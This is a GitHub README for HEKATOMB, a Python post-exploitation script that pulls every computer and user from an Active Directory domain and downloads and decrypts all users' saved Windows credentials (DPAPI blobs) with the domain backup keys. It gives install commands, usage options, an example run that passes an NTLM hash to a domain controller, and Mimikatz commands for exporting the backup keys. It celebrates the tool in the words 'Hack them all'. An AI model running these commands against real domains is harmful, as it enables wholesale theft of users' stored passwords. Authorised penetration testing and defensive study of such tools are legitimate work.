

# The HEKATOMB project

<div align="center">
  <br>
  
  <br>
  <a href="https://twitter.com/intent/follow?screen_name=ProcessusT" title="Follow"></a>
  <br>
  <h1>
    Because Domain Admin rights are not enough.<br />
                Hack them all.
  </h1>
  <br><br>
</div>

> Hekatomb is a hacking script that connects to LDAP directory to retrieve all computers and users informations.<br />
> Then it will download all DPAPI blob of all users from all computers and uses Domain backup keys to decrypt them.
> 
> Script kiddies codes malwares in C#, real pentesters use Python and are already Domain Admins 🐍
> 
<br>
<div align="center">

</div>
<br>

## What da fuck is this ?
<br />
On Windows, credentials saved in the Windows Credentials Manager are encrypted using Microsoft's Data Protection API and stored as "blob" files in user AppData folder.<br />
Outside of a domain, the user's password hash is used to encrypt these "blobs".<br />
When you are in an Active Directory environment, the Data Protection API uses the domain controller's public key to encrypt these blobs.<br />
With the private key of the domain controller, it is possible to decrypt all the blobs, and therefore to recover all the secrets recorded in the Windows identification manager of all the workstations in the domain.<br />
<br />
Hekatomb automates the search for blobs and the decryption to recover all domain users' secrets ☠️
<br />
<br />

## Requirements
<br>
Hekatomb is coded in Python 3 and uses Pip to install its requirements :
<br><br>

```python
git clone https://github.com/Processus-Thief/HEKATOMB
cd HEKATOMB
pip3 install -r requirements.txt
```

<br><br>


## Usage
<br>
Hekatomb uses Impacket syntax :
<br><br>

```python
usage: hekatomb.py [-h] [-pvk PVK] [-hashes LMHASH:NTHASH] [-dns DNS] [-port [port]] [-md5] [-debug] [-debugmax] target

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address of DC>

optional arguments:
  -h, --help            show this help message and exit

authentication:
  -pvk PVK              domain backup keys file
  -hashes LMHASH:NTHASH NTLM hashes, format is LMHASH:NTHASH
  -dns DNS              DNS server IP address to resolve computers hostname
  -dnstcp               Use TCP for DNS connection
  -port [port]          port to connect to SMB Server

verbosity:
  -md5                  Print md5 hash insted of clear passwords
  -debug                Turn DEBUG output ON
  -debugmax             Turn DEBUG output TO MAAAAXXXX
```

<br>
<br>

## Example

<br>

```python
python3 hekatomb.py -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -pvk pvkfile.pvk
```

<br>
<br
    
## How to retrieve domain backup keys ?

<br>
Just use Mimikatz on your domain controller to extract keys :
<br><br />

```python
privilege::debug
lsadump::backupkeys /export
```

<br /><br />
If no domain backup keys are provided, the script will only retrieve DPAPI blobs without decrypting them.
